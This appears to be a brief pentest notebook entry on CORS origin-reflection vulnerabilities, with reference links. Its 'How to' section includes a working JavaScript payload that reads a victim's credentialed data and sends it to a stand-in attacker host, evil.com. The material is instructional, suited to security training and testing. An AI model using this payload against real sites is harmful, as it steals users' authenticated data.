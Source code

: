 # Intro

CORS vulnerability with basic origin reflection

Cross-origin resource sharing(CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.

It extends and adds flexibility to the same-origin policy. However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented.&#x20;

CORS is not a protection against cross-origin attacks such as cross-site request forgery(CSRF).





## Vuls

### 0x01 CORS+XSS

{% embed url="https://hackerone.com/reports/1208453" %}

### 0x02 misconfig

1.Burp: [https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

2\. [https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66](https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66)

#### How to:

#### 1. set the origin:

```
GET /sensitiveData HTTP/1.1
Host: vulnerable.com
Origin: 
https://evil.com

```

#### 2. find the response that can be controlled:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` be written by Origin and \`Access-Control-Allow-Credentials\` is true.

#### 3. use the js to interact with the service:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//https://evil.com/log?key='+this.responseText;
};
```

The sensitive response information will be sent to the evil.com..

